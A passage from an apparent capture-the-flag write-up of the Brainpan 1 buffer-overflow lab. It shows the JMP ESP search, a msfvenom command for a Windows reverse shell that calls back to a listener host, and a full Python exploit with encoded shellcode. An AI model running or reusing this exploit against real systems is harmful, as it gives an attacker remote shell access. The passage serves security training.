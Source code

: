 In this case no bad characters where found.

### Jumps to ESP

We use 

````shell
!mona jmp -r esp -cpb "\x00"
````

To find valid directions to use as `retn` address and redirect the flow of execution to our shell code.

![jmpesp](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn8.png)

we convert it to `little endian` and use it as `retn`.

### Generating Shellcode

We use `msfvenom` to generate a reverse shell code

````shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.85 LPORT=443 EXITFUNC=thread -b "\x00" -f py
````

And this is the final version of the exploit.

````py
import socket

ip = "10.10.208.148"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31" 
padding = "\x90" * 16
buf =  b""
buf += b"\xb8\x6c\x2c\x9b\x0f\xdb\xc3\xd9\x74\x24\xf4\x5f\x29"
buf += b"\xc9\xb1\x52\x31\x47\x12\x83\xc7\x04\x03\x2b\x22\x79"
buf += b"\xfa\x4f\xd2\xff\x05\xaf\x23\x60\x8f\x4a\x12\xa0\xeb"
buf += b"\x1f\x05\x10\x7f\x4d\xaa\xdb\x2d\x65\x39\xa9\xf9\x8a"
buf += b"\x8a\x04\xdc\xa5\x0b\x34\x1c\xa4\x8f\x47\x71\x06\xb1"
buf += b"\x87\x84\x47\xf6\xfa\x65\x15\xaf\x71\xdb\x89\xc4\xcc"
buf += b"\xe0\x22\x96\xc1\x60\xd7\x6f\xe3\x41\x46\xfb\xba\x41"
buf += b"\x69\x28\xb7\xcb\x71\x2d\xf2\x82\x0a\x85\x88\x14\xda"
buf += b"\xd7\x71\xba\x23\xd8\x83\xc2\x64\xdf\x7b\xb1\x9c\x23"
buf += b"\x01\xc2\x5b\x59\xdd\x47\x7f\xf9\x96\xf0\x5b\xfb\x7b"
buf += b"\x66\x28\xf7\x30\xec\x76\x14\xc6\x21\x0d\x20\x43\xc4"
buf += b"\xc1\xa0\x17\xe3\xc5\xe9\xcc\x8a\x5c\x54\xa2\xb3\xbe"
buf += b"\x37\x1b\x16\xb5\xda\x48\x2b\x94\xb2\xbd\x06\x26\x43"
buf += b"\xaa\x11\x55\x71\x75\x8a\xf1\x39\xfe\x14\x06\x3d\xd5"
buf += b"\xe1\x98\xc0\xd6\x11\xb1\x06\x82\x41\xa9\xaf\xab\x09"
buf += b"\x29\x4f\x7e\x9d\x79\xff\xd1\x5e\x29\xbf\x81\x36\x23"
buf += b"\x30\xfd\x27\x4c\x9a\x96\xc2\xb7\x4d\x93\x19\xa0\x5e"
buf += b"\xcb\x1f\xce\x61\xb7\xa9\x28\x0b\xd7\xff\xe3\xa4\x4e"
buf += b"\x5a\x7f\x54\x8e\x70\xfa\x56\x04\x77\xfb\x19\xed\xf2"
buf += b"\xef\xce\x1d\x49\x4d\x58\x21\x67\xf9\x06\xb0\xec\xf9"
buf += b"\x41\xa9\xba\xae\x06\x1f\xb3\x3a\xbb\x06\x6d\x58\x46"
buf += b"\xde\x56\xd8\x9d\x23\x58\xe1\x50\x1f\x7e\xf1\xac\xa0"
buf += b"\x3a\xa5\x60\xf7\x94\x13\xc7\xa1\x56\xcd\x91\x1e\x31"
buf += b"\x99\x64\x6d\x82\xdf\x68\xb8\x74\x3f\xd8\x15\xc1\x40"
buf += b"\xd5\xf1\xc5\x39\x0b\x62\x29\x90\x8f\x82\xc8\x30\xfa"
buf += b"\x2a\x55\xd1\x47\x37\x66\x0c\x8b\x4e\xe5\xa4\x74\xb5"
buf += b"\xf5\xcd\x71\xf1\xb1\x3e\x08\x6a\x54\x40\xbf\x8b\x7d"
payload = buf
````
